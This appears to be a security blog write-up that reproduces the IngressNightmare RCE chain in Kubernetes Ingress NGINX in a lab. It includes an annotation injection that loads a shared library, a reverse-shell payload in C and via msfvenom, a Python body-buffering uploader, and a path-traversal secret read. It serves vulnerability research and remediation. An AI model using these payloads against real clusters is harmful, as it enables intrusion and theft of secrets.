




+++
title = 'Exploiting IngressNightmare: A Deep Dive'
date = 2025-03-31T10:38:29+02:00
+++

Wiz recently [discovered](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities) an unauthenticated remote code execution (RCE) vulnerability in the [Ingress NGINX](https://github.com/kubernetes/ingress-nginx) admission controller. I found the exploit chain particularly intriguing and decided to recreate it for a deeper understanding.

I want to thank my employer [CODE WHITE](https://code-white.com/) for the permission to publish this post. As part of our Security Intelligence Service, we identified, exploited, and quickly remediated this vulnerability on systems within our clients' scope.

### Introduction to Kubernetes Ingress and Admission Controllers
In Kubernetes, an [Ingress resource](https://kubernetes.io/docs/concepts/services-networking/ingress/) is used to manage external access to services within a cluster, typically by routing HTTP/HTTPS traffic based on defined rules.

Kubernetes operates on a declarative model, where the desired state of the system is defined through API objects. To enforce policies and modify these objects, [admission controllers](https://kubernetes.io/docs/reference/access-authn-authz/admission-controllers/) are employed.

The following diagram illustrates the flow of a request to the Kubernetes API server and highlights the role of mutating and validating admission controllers:


Kubernetes API objects, in themselves, are simply declarative representations of desired state. Their actual implementation is managed by [controllers](https://kubernetes.io/docs/concepts/architecture/controller/). These are control loops, typically implemented as binaries running within pods, that continuously monitor the state of their assigned resources. When changes are detected, controllers take actions to reconcile the actual state with the desired state specified in the API objects.
This decoupled architecture allows for extensibility, where functionalities are implemented as plugins rather than being baked into the core Kubernetes system (e.g. [CSI](https://github.com/container-storage-interface/spec/blob/master/spec.md), [CRI](https://kubernetes.io/docs/concepts/architecture/cri/), [CNI](https://github.com/containernetworking/cni) ). This is also true for Ingress resources, which is why Ingress NGINX exists.

Ingress NGINX, officially maintained and developed by the Kubernetes community, is a popular implementation of an Ingress controller. As its name suggests, it leverages the widely used Nginx web server and reverse proxy to handle the routing of external traffic into the cluster based on the rules defined in Ingress resources.

The IngressNightmare vulnerability affects the admission controller component of Ingress NGINX which is responsible for validating incoming Nginx configurations. It accomplishes this by creating a temporary config file that is then validated by the `nginx` command similar to the following:

```bash
nginx -t -c /tmp/nginx-cfg1217030255
```

By default, the admission controller is accessible without authentication. Additionally, due to improper filtering, an attacker can inject arbitrary Nginx configuration directives, including [`ssl_engine`](https://nginx.org/en/docs/ngx_core_module.html#ssl_engine) which allows loading a shared library. This malicious library, containing the attacker's arbitrary code, can be provided by issuing a request with a large body and keeping the connection open. In this scenario, Nginx buffers the received data into a temporary file that can then be referenced in the injected Nginx configuration, leading to the library being loaded and executed.

### Lab Setup

Let's start by building a test environment. I prefer [minikube](https://minikube.sigs.k8s.io/docs/start/) for any local Kubernetes testing, and it conveniently supports Ingress NGINX after enabling the addon:

```bash
minikube addons enable ingress
```

Using the following command, we can then identify the Ingress NGINX admission controller:
```bash
$ kubectl get validatingwebhookconfigurations -A -o yaml
...
    creationTimestamp: "2025-03-25T10:46:38Z"
    generation: 2
    labels:
      app.kubernetes.io/component: admission-webhook
      app.kubernetes.io/instance: ingress-nginx
      app.kubernetes.io/name: ingress-nginx
    name: ingress-nginx-admission
    resourceVersion: "115237"
    uid: 91f56c87-8593-4816-9b43-2c67f154c3e3
  webhooks:
  - admissionReviewVersions:
    - v1
    clientConfig:
      caBundle: LS0tLS1CRUdJTiBDR...
      service:
        name: ingress-nginx-controller-admission
        namespace: ingress-nginx
        path: /networking/v1/ingresses
        port: 443
..
```

This output (`webhooks.clientConfig.service`) the service responsible for routing traffic to the controller. The `kubectl port-forward` command grants local access to the controller, simplifying interaction:

```bash
kubectl port-forward -n ingress-nginx  service/ingress-nginx-controller-admission  8888:443
```

Using the `path` specified in the `ValidatingWebhookConfiguration` above, we can now send a request:
```bash
curl -iksw '%{certs}' https://127.0.0.1:8888/networking/v1/ingresses
HTTP/1.1 400 Bad Request
Date: Sat, 29 Mar 2025 11:32:39 GMT
Content-Length: 0

Subject:O = nil2
Issuer:O = nil1
..
X509v3 Subject Alternative Name:DNS:ingress-nginx-controller-admission, DNS:ingress-nginx-controller-admission.ingress-nginx.svc
...
```

While the request fails (expecting a POST with an `AdmissionReview` body), this confirms connectivity and looks similar to the checks in the [nuclei template provided by Wiz](https://gist.github.com/nirohfeld/7a7c82c62321de9c2ef95d266b241fcb). Let's continue by creating a request containing a valid `AdmissionReview`. This can be done using the following [example Ingress specification](https://kubernetes.io/docs/tasks/access-application-cluster/ingress-minikube/#create-an-ingress) together with the [kube-review tool](https://github.com/anderseknert/kube-review):
```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: example-ingress
spec:
  ingressClassName: nginx
  rules:
    - host: hello-world.com
      http:
        paths:
          - path: /
            pathType: Prefix
            backend:
              service:
                name: web
                port:
                  number: 8080
```

Use the following commands to create and send a valid request:
```bash
./kube-review create example_ingress.yaml > example_ingress.json && \
curl -k https://127.0.0.1:8888/networking/v1/ingresses -i -X POST --json @example_ingress.json
```

The response is rather verbose, but the key part (`"allowed": true`) shows our Ingress configuration would have been accepted:
```json
HTTP/1.1 200 OK
Date: Sat, 29 Mar 2025 11:43:29 GMT
Content-Length: 1804
Content-Type: text/plain; charset=utf-8

{
  "kind": "AdmissionReview",
  "apiVersion": "admission.k8s.io/v1",
  "request": {
...
  },
  "response": {
    "uid": "1edd602a-0f85-48c3-91bc-66dd757451ef",
    "allowed": true
  }
}                      
```

For our next attempts, we should also monitor the log output of the admission controller using:

```
kubectl logs -f -n ingress-nginx   deployment/ingress-nginx-controller  
-------------------------------------------------------------------------------
NGINX Ingress controller
  Release:       v1.10.1
  Build:         4fb5aac1dd3669daa3a14d9de3e3cdb371b4c518
  Repository:    https://github.com/kubernetes/ingress-nginx
  nginx version: nginx/1.25.3

-------------------------------------------------------------------------------
...
I0329 11:43:29.219318       7 admission.go:149] processed ingress via admission controller {testedIngressLength:2 testedIngressTime:0.024s renderingIngressLength:2 renderingIngressTime:0s admissionTime:0.024s testedConfigurationSize:22.0kB}
I0329 11:43:29.219351       7 main.go:107] "successfully validated configuration, accepting" ingress="/example-ingress"
```

### Configuration Injection

We can now attempt to inject directives into the Nginx configuration by adding a `nginx.ingress.kubernetes.io/auth-url` annotation to our ingress resource:

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: example-ingress
  annotations:
    nginx.ingress.kubernetes.io/auth-url: "http://example.com/#;\ninjection_point" 
spec:
  ingressClassName: nginx
  rules:
    - host: hello-world.com
...
```

```bash
./kube-review create example_ingress.yaml > example_ingress.json && curl -k https://127.0.0.1:8888/networking/v1/ingresses -i -X POST --json @example_ingress.json

HTTP/1.1 200 OK
Date: Sat, 29 Mar 2025 11:48:58 GMT
Content-Type: text/plain; charset=utf-8
Transfer-Encoding: chunked
...
# ------------------------------------------------------------------------------
# Error: exit status 1
# 2025/03/29 11:48:58 [emerg] 230#230: unknown directive \"injection_point\" in /tmp/nginx/nginx-cfg2090142930:495
# nginx: [emerg] unknown directive \"injection_point\" in /tmp/nginx/nginx-cfg2090142930:495
# nginx: configuration file /tmp/nginx/nginx-cfg2090142930 test failed
# 
# -------------------------------------------------------------------------------
```

This response points us to the generated temporary config file (`/tmp/nginx/nginx-cfg2090142930`), which we can inspect to better understand the injection. Usually, I would do so using the following command:

```bash
kubectl exec -it -n ingress-nginx  deployment/ingress-nginx-controller  -- bash
ingress-nginx-controller-768f948f8f-rbxzs:/etc/nginx$ id
uid=101(www-data) gid=82(www-data) groups=82(www-data)
```


The default `www-data` user, however, has limited privileges inside the container. To make investigating more convenient, I created a debugging container in the same network and process namespace as the admission controller using these commands on the Minikube node:

```bash
minikube ssh 

docker@minikube:~$ docker ps # Find the target container ID
CONTAINER ID   IMAGE                       COMMAND                  CREATED          STATUS          PORTS     NAMES
ce0c87e98055   ee54966f3891                "/usr/bin/dumb-init …"   31 minutes ago   Up 31 minutes             k8s_controller_ingress-nginx-controller-768f948f8f-rbxzs_ingress-nginx_0e18a13b-9d1b-4f4d-b791-cd91d387fe73_1
...

docker@minikube:~$ docker run -it --rm --pid=container:ce0c87e98055 --network=container:ce0c87e98055 --privileged debian bash # Start debug container
```

From within this privileged container, we can now see the `nginx-ingress-controller` binary (PID 7) that runs the admission controller, as well as the Nginx worker processes that power the Ingress proxy itself:
```
root@ingress-nginx-controller-768f948f8f-rbxzs:/# ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
101            1  0.0  0.0    220     0 ?        Ss   11:26   0:00 /usr/bin/dumb-init -- /nginx-ingress-controller --election-id=ingress-nginx-leader --controller-class=k8s.io/ingress-nginx --watch-ingress-without-class=true --configmap=ingress-nginx/ingress-nginx-controller --tcp-services-configmap=ingress-nginx/tcp-services --udp-services-configmap=ingress-nginx/udp-services --validating-webhook=:8443 --validating-webhook-certificate=/usr/local/certificates/cert --validating-webhook-key=/usr/local/certificates/key
101            7  0.0  0.2 1270560 43296 ?       Ssl  11:26   0:01 /nginx-ingress-controller --election-id=ingress-nginx-leader --controller-class=k8s.io/ingress-nginx --watch-ingress-without-class=true --configmap=ingress-nginx/ingress-nginx-controller --tcp-services-configmap=ingress-nginx/tcp-services --udp-services-configmap=ingress-nginx/udp-services --validating-webhook=:8443 --validating-webhook-certificate=/usr/local/certificates/cert --validating-webhook-key=/usr/local/certificates/key
101           25  0.0  0.0 121076 10908 ?        S    11:27   0:00 nginx: master process /usr/bin/nginx -c /etc/nginx/nginx.conf
101           29  0.0  0.0 133344 15804 ?        Sl   11:27   0:00 nginx: worker process
101           30  0.0  0.0 133344 15780 ?        Sl   11:27   0:00 nginx: worker process
...
```

Using the proc filesystem, we can check the previously created configuration file to see that the injection appears in one of several `location` blocks:

```bash
root@ingress-nginx-controller-768f948f8f-rbxzs:/# cat /proc/1/cwd/tmp/nginx/nginx-cfg2090142930 | grep -C 6 "injection"
            client_max_body_size        1m;

            # Pass the extracted client certificate to the auth provider

            proxy_http_version 1.1;
            set $target http://example.com/#;
            injection_point;

            proxy_pass $target;
    }

    location / {
```
*(Full file can be found in [annex](#Annex))*

Simply replacing `injection_point` with `ssl_engine` yields an error:
```
2025/03/29 12:10:30 [emerg] 3798#3798: "ssl_engine" directive is not allowed here in /tmp/nginx/nginx-cfg1407591265:495
```

This is expected, as the [Nginx documentation](https://nginx.org/en/docs/ngx_core_module.html#ssl_engine) mentions that this directive is allowed only in the main context. An Nginx configuration has a hierarchical structure, and `ssl_engine` must be placed at the top level (main context), not nested within a `server` or `location` block:



Therefore, we need to inject additional closing brackets to escape into the main context:

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: example-ingress
  annotations:
    nginx.ingress.kubernetes.io/auth-url: "http://example.com/#;\n}}}ssl_engine /etc/hostname" 
...
```

From the error message, we can deduce that it worked and that there was an attempt to load the specified file:
```
nginx: [emerg] ENGINE_by_id("/etc/hostname") failed (SSL: error:12800067:DSO support routines::could not load the shared library:filename(/etc/hostname): Error loading shared library /etc/hostname: Exec format error error:12800067:DSO support routines::could not load the shared library error:13000084:engine routines::dso not found error:13000074:engine routines::no such engine:id=/etc/hostname)
```

After some additional iterations, I also recreated CVE-2025-1974 which results in the same impact:

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: example-ingress
  uid: "{\n}}}\nssl_engine /proc/PROC/fd/FD;\n"
  annotations:
    nginx.ingress.kubernetes.io/mirror-target: "https://127.0.0.1:443"
spec:
  ingressClassName: nginx
  rules:
    - host: hello-world.test
      http:
        paths:
          - path: /
            pathType: Prefix
            backend:
              service:
                name: web
                port:
                  number: 8080
```

### Loading Shared Library

With the configuration injection working, we can now create the shared library. First, I created a test pod to act as a listener for an incoming reverse shell:
```bash
kubectl run testpod --image=debian --command sleep -- 90d
kubectl exec -it testpod -- bash
root@testpod:/# nc -klnvp 1337
listening on [any] 1337 ...
```

Then, I attempted to use `msfvenom` to create the malicious library which I manually copied into the pod:
```bash
msfvenom -p linux/x64/shell_reverse_tcp  LHOST=10.244.0.9 LPORT=1337 -f elf-so -o test.so
kubectl cp -n ingress-nginx ./test.so ingress-nginx-controller-768f948f8f-rbxzs:/etc/nginx/test.so  
```

I triggered the execution of the library with another request which surprisingly led to the following:

```bash
Error: signal: segmentation fault (core dumped)
```

I tried to figure out what happened, and while investigating I also ran :
```bash
/ # ldd /etc/nginx/test.so 
        /lib/ld-musl-x86_64.so.1 (0x700ce0bb0000)
```

I was surprised to see `musl` instead of `libc`, but this meant the container was built with Alpine Linux. Thus, I manually created a compatible shared library using an Alpine container:

```bash
docker run -it alpine:latest /bin/sh
apk update
apk add build-base
apk add vim
gcc -shared -fPIC payload.c -o payload.so
```

`payload.c`:
```c
#include <unistd.h>
#include <stdlib.h>

__attribute__((constructor)) void init() {
    system("/bin/bash -c 'busybox nc 10.244.0.9 1337 -e /bin/bash'");
}
```

```bash
docker cp 767dbffd9991:/payload.so test.so
kubectl cp -n ingress-nginx ./test.so ingress-nginx-controller-768f948f8f-rbxzs:/etc/nginx/test.so  
```

And with the new payload executed, a reverse shell was received as expected:
```bash
root@testpod:/# nc -klnvp 1337
listening on [any] 1337 ...
connect to [10.244.0.23] from (UNKNOWN) [10.244.0.25] 40451
id
uid=101(www-data) gid=82(www-data) groups=82(www-data)
```


### File Upload

The last piece of the puzzle was to upload the shared library so that it could later be referenced in the configuration file and thus executed. 

When Nginx receives a request with a body larger than its configured [`client_body_buffer_size`]((https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size)) (defaults are 8k/16k depending on architecture), it will save the body to a temporary file which means it is possible to send a request containing the shared library as the body, padded with null bytes to exceed the buffer size. 

So far, we have interacted only with the admission controller which is not based on nginx but on a go `http.Server`
*(`/ingress/ingress-nginx/internal/ingress/controller/nginx.go`)*
```go
    if n.cfg.ValidationWebhook != "" {
        n.validationWebhookServer = &http.Server{
            Addr: config.ValidationWebhook,
            // G112 (CWE-400): Potential Slowloris Attack
            ReadHeaderTimeout: 10 * time.Second,
            Handler:           adm_controller.NewAdmissionControllerServer(&adm_controller.IngressAdmission{Checker: n}),
            TLSConfig:         ssl.NewTLSListener(n.cfg.ValidationWebhookCertPath, n.cfg.ValidationWebhookKeyPath).TLSConfig(),
            // disable http/2
            // https://github.com/kubernetes/kubernetes/issues/80313
            // https://github.com/kubernetes/ingress-nginx/issues/6323#issuecomment-737239159
            TLSNextProto: make(map[string]func(*http.Server, *tls.Conn, http.Handler)),
        }
    }
```

The actual Ingress proxy, that runs inside the same pod as its admission controller, is, however, based on Nginx and thus able to buffer our upload. But it will only be reachable after an actual ingress resource is created. Therefore, let's create and expose an example workload (https://hub.docker.com/r/hashicorp/http-echo):
```bash
kubectl run web --image=hashicorp/http-echo
kubectl expose pod web --port=5678
```

Create the following example ingress resource:
```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: example-ingress
spec:
  ingressClassName: nginx
  rules:
    - host: hello-world.example
      http:
        paths:
          - path: /
            pathType: Prefix
            backend:
              service:
                name: web
                port:
                  number: 5678
```

Apply it and check if the ingress is created:
```bash
kubectl apply -f example_ingress.yaml
kubectl get ingress
NAME              CLASS   HOSTS                 ADDRESS        PORTS   AGE
example-ingress   nginx   hello-world.example   192.168.67.2   80      3d
```

After it is created, we can test it with:
```bash
curl http://192.168.67.2/ -H "Host: hello-world.example" 
hello-world
```

Now that we have a reachable Nginx instance we can simulate the buffering behavior:

```bash
curl -X POST -d "$(head -c 9000 /dev/urandom | base64)" http://192.168.67.2 -k --http1.1 
```

This leads to the pod log confirming the buffering:
```bash
2025/03/29 13:14:35 [warn] 32#32: *155656 a client request body is buffered to a temporary file /tmp/nginx/client-body/0000000002, client: 192.168.67.1, server: _, request: "POST / HTTP/1.1", host: "192.168.67.2"
```

However, we are unable to open the file:
```bash
root@ingress-nginx-controller-768f948f8f-rbxzs:/# cat /proc/1/cwd/tmp/nginx/client-body/0000000002
cat: /proc/1/cwd/tmp/nginx/client-body/0000000002: No such file or directory
```

As explained in the original blog post, this temporary file is [deleted almost immediately](https://github.com/nginx/nginx/blob/e3a9b6ad08a86e799a3d77da3f2fc507d3c9699e/src/os/unix/ngx_files.c#L287) but the Nginx worker process still holds an open file descriptor. We can specify the `Content-Length` header of our request to be larger than the actual body which causes Nginx to wait for additional data, extending the lifetime of the temporary file to the default [`client_body_timeout`](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size) of 60 seconds.

Using the following Python snippet, we can pad the shared library with null bytes, manually send the upload request to the Ingress endpoint with a slightly larger `Content-Length` header and keep the connection open:

```python
def send_file(file,ip,port):
    
    with open(file,"br") as f:
        data = f.read()
    # make sure it is bigger than default "client_body_buffer_size" of 8k or 16k
    data += b"\x00" * (16384 - len(data) % 16384)
    
    payload = f"POST / HTTP/1.1\r\nHost: {ip}:{port}\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: {len(data)+1}\r\n\r\n"
    data = payload.encode('ascii') + data

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    if port != 80:
      context = ssl.create_default_context()
      context.check_hostname = False
      context.verify_mode = ssl.CERT_NONE
      ssl_sock = context.wrap_socket(sock, server_hostname=ip)
      ssl_sock.connect((ip,port))
      ssl_sock.sendall(data)
    else:
      sock.connect((ip,port))
      sock.sendall(data)
    
    time.sleep(50) 
```

Combining everything we know so far allows us to write an exploit that uploads the malicios library and then injects nginx configurations until the right `/proc/PID/fd/FD` is guessed to get the shell:



While this worked flawlessly in the lab, real-world exploitation against an internet-exposed admission controller is significantly more challenging.
- First, the Ingress NGINX admission controller is, by default, only accessible from inside the cluster and should not be exposed externally.
- Second, the window of opportunity is narrow. An attacker would need to guess or brute-force a large number of potential process IDs and file descriptors within the timeout period.
- Third, buffering a file upload must actually be possible. Depending on the specific Nginx configuration (e.g. `client_body_buffer_size`), this might not occur, or if intermediate proxies (like external load balancers) handle buffering differently or enforce smaller request limits, the upload to a temporary file might not occur on the target Nginx instance.
- Finally, a well-segmented cluster network could block the outgoing connection required for a reverse shell, preventing the attacker from retrieving data or gaining control.

A successful exploitation is thus significantly more likely from within the cluster or adjacent network segments where both the admission controller and the Nginx proxy are reachable. Also note that, given the default privileges of the admission controller, a successful attack would not only mean code execution but also likely grant access to all secrets within the Kubernetes cluster. This implies that if any other web application inside the cluster is compromised, exploiting the Ingress NGINX admission controller could potentially allow an attacker to gain full control over the Kubernetes cluster.

Therefore, please follow the [remediation guidance](https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/#your-next-steps) published by Kubernetes.

Lastly, I want to congratulate the Wiz researchers [@nirohfeld](https://x.com/nirohfeld), [@sagitz_](https://x.com/sagitz_), [@ronenshh](https://x.com/ronenshh), [@hillai](https://x.com/hillai) and [@andresriancho](https://x.com/andresriancho) for finding this exploit chain; it was great fun to reproduce it. 

### Bonus Round
An additional vulnerability, [CVE-2025-24513](https://github.com/advisories/GHSA-242m-6h72-7hgp) is barely mentioned in the original report. The [merge request](https://github.com/kubernetes/ingress-nginx/pull/13068/files) intended to fix all mentioned vulnerabilities also adds checks against a path traversal:



It turns out that if we know the name and UID of an existing secret, we can retrieve it in clear text and write its contents to an arbitrary location within the pod's filesystem:

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: example-ingress
  namespace: default
  uid: "somename"
  annotations:
    nginx.ingress.kubernetes.io/auth-type: basic
    nginx.ingress.kubernetes.io/auth-secret: some-secret
    nginx.ingress.kubernetes.io/auth-secret-type: auth-map
...
```

```bash
$ cat /etc/ingress-controller/auth/default-somename-484a9231-7596-48d4-b392-6c55222dd757.passwd 
key:Password123!
```


# Annex

`/tmp/nginx/nginx-cfg2090142930`:
```nginx
# Configuration checksum: 

# setup custom paths that do not require root access
pid /tmp/nginx/nginx.pid;

daemon off;

worker_processes 6;

worker_rlimit_nofile 1047552;

worker_shutdown_timeout 240s ;

events {
        multi_accept        on;
        worker_connections  16384;
        use                 epoll;

}

http {

        lua_package_path "/etc/nginx/lua/?.lua;;";

        lua_shared_dict balancer_ewma 10M;
        lua_shared_dict balancer_ewma_last_touched_at 10M;
        lua_shared_dict balancer_ewma_locks 1M;
        lua_shared_dict certificate_data 20M;
        lua_shared_dict certificate_servers 5M;
        lua_shared_dict configuration_data 20M;
        lua_shared_dict global_throttle_cache 10M;
        lua_shared_dict ocsp_response_cache 5M;

        init_by_lua_block {
                collectgarbage("collect")

                -- init modules
                local ok, res

                ok, res = pcall(require, "lua_ingress")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                lua_ingress = res
                lua_ingress.set_config({
                        use_forwarded_headers = false,
                        use_proxy_protocol = false,
                        is_ssl_passthrough_enabled = false,
                        http_redirect_code = 308,
                        listen_ports = { ssl_proxy = "442", https = "443" },

                        hsts = false,
                        hsts_max_age = 31536000,
                        hsts_include_subdomains = true,
                        hsts_preload = false,

                        global_throttle = {
                                memcached = {
                                        host = "", port = 11211, connect_timeout = 50, max_idle_timeout = 10000, pool_size = 50,
                                },
                                status_code = 429,
                        }
                })
                end

                ok, res = pcall(require, "configuration")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                configuration = res
                configuration.prohibited_localhost_port = '10246'
                end

                ok, res = pcall(require, "balancer")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                balancer = res
                end

                ok, res = pcall(require, "monitor")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                monitor = res
                end

                ok, res = pcall(require, "certificate")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                certificate = res
                certificate.is_ocsp_stapling_enabled = false
                end

                ok, res = pcall(require, "plugins")
                if not ok then
                error("require failed: " .. tostring(res))
                else
                plugins = res
                end
                -- load all plugins that'll be used here
                plugins.init({  })
        }

        init_worker_by_lua_block {
                lua_ingress.init_worker()
                balancer.init_worker()

                monitor.init_worker(10000)

                plugins.run()
        }

        aio                 threads;

        aio_write           on;

        tcp_nopush          on;
        tcp_nodelay         on;

        log_subrequest      on;

        reset_timedout_connection on;

        keepalive_timeout  75s;
        keepalive_requests 1000;

        client_body_temp_path           /tmp/nginx/client-body;
        fastcgi_temp_path               /tmp/nginx/fastcgi-temp;
        proxy_temp_path                 /tmp/nginx/proxy-temp;

        client_header_buffer_size       1k;
        client_header_timeout           60s;
        large_client_header_buffers     4 8k;
        client_body_buffer_size         8k;
        client_body_timeout             60s;

        http2_max_concurrent_streams    128;

        types_hash_max_size             2048;
        server_names_hash_max_size      1024;
        server_names_hash_bucket_size   64;
        map_hash_bucket_size            64;

        proxy_headers_hash_max_size     512;
        proxy_headers_hash_bucket_size  64;

        variables_hash_bucket_size      256;
        variables_hash_max_size         2048;

        underscores_in_headers          off;
        ignore_invalid_headers          on;

        limit_req_status                503;
        limit_conn_status               503;

        include /etc/nginx/mime.types;
        default_type text/html;

        # Custom headers for response

        server_tokens off;

        more_clear_headers Server;

        # disable warnings
        uninitialized_variable_warn off;

        # Additional available variables:
        # $namespace
        # $ingress_name
        # $service_name
        # $service_port
        log_format upstreaminfo '$remote_addr - $remote_user [$time_local] "$request" $status $body_bytes_sent "$http_referer" "$http_user_agent" $request_length $request_time [$proxy_upstream_name] [$proxy_alternative_upstream_name] $upstream_addr $upstream_response_length $upstream_response_time $upstream_status $req_id';

        map $request_uri $loggable {

                default 1;
        }

        access_log /var/log/nginx/access.log upstreaminfo  if=$loggable;

        error_log  /var/log/nginx/error.log notice;

        resolver 10.96.0.10 valid=30s;

        # See https://www.nginx.com/blog/websocket-nginx
        map $http_upgrade $connection_upgrade {
                default          upgrade;

                # See http://nginx.org/en/docs/http/ngx_http_upstream_module.html#keepalive
                ''               '';

        }

        # Reverse proxies can detect if a client provides a X-Request-ID header, and pass it on to the backend server.
        # If no such header is provided, it can provide a random value.
        map $http_x_request_id $req_id {
                default   $http_x_request_id;

                ""        $request_id;

        }

        # Create a variable that contains the literal $ character.
        # This works because the geo module will not resolve variables.
        geo $literal_dollar {
                default "$";
        }

        server_name_in_redirect off;
        port_in_redirect        off;

        ssl_protocols TLSv1.2 TLSv1.3;

        ssl_early_data off;

        # turn on session caching to drastically improve performance

        ssl_session_cache shared:SSL:10m;
        ssl_session_timeout 10m;

        # allow configuring ssl session tickets
        ssl_session_tickets off;

        # slightly reduce the time-to-first-byte
        ssl_buffer_size 4k;

        # allow configuring custom ssl ciphers
        ssl_ciphers 'ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256:ECDHE-ECDSA-AES256-GCM-SHA384:ECDHE-RSA-AES256-GCM-SHA384:ECDHE-ECDSA-CHACHA20-POLY1305:ECDHE-RSA-CHACHA20-POLY1305:DHE-RSA-AES128-GCM-SHA256:DHE-RSA-AES256-GCM-SHA384';
        ssl_prefer_server_ciphers on;

        ssl_ecdh_curve auto;

        # PEM sha: d4a5bb02bbdc5e6bae72705a6fbf993cd3e3e8ad
        ssl_certificate     /etc/ingress-controller/ssl/default-fake-certificate.pem;
        ssl_certificate_key /etc/ingress-controller/ssl/default-fake-certificate.pem;

        proxy_ssl_session_reuse on;

        upstream upstream_balancer {
                ### Attention!!!
                #
                # We no longer create "upstream" section for every backend.
                # Backends are handled dynamically using Lua. If you would like to debug
                # and see what backends ingress-nginx has in its memory you can
                # install our kubectl plugin https://kubernetes.github.io/ingress-nginx/kubectl-plugin.
                # Once you have the plugin you can use "kubectl ingress-nginx backends" command to
                # inspect current backends.
                #
                ###

                server 0.0.0.1; # placeholder

                balancer_by_lua_block {
                        balancer.balance()
                }

                keepalive 320;
                keepalive_time 1h;
                keepalive_timeout  60s;
                keepalive_requests 10000;

        }

        # Cache for internal auth checks
        proxy_cache_path /tmp/nginx/nginx-cache-auth levels=1:2 keys_zone=auth_cache:10m max_size=128m inactive=30m use_temp_path=off;

        # Global filters

        ## start server _
        server {
                server_name _ ;

                http2 on;

                listen 80 default_server reuseport backlog=4096 ;
                listen [::]:80 default_server reuseport backlog=4096 ;
                listen 443 default_server reuseport backlog=4096 ssl;
                listen [::]:443 default_server reuseport backlog=4096 ssl;

                set $proxy_upstream_name "-";

                ssl_reject_handshake off;

                ssl_certificate_by_lua_block {
                        certificate.call()
                }

                location / {

                        set $namespace      "";
                        set $ingress_name   "";
                        set $service_name   "";
                        set $service_port   "";
                        set $location_path  "";
                        set $global_rate_limit_exceeding n;

                        rewrite_by_lua_block {
                                lua_ingress.rewrite({
                                        force_ssl_redirect = false,
                                        ssl_redirect = false,
                                        force_no_ssl_redirect = false,
                                        preserve_trailing_slash = false,
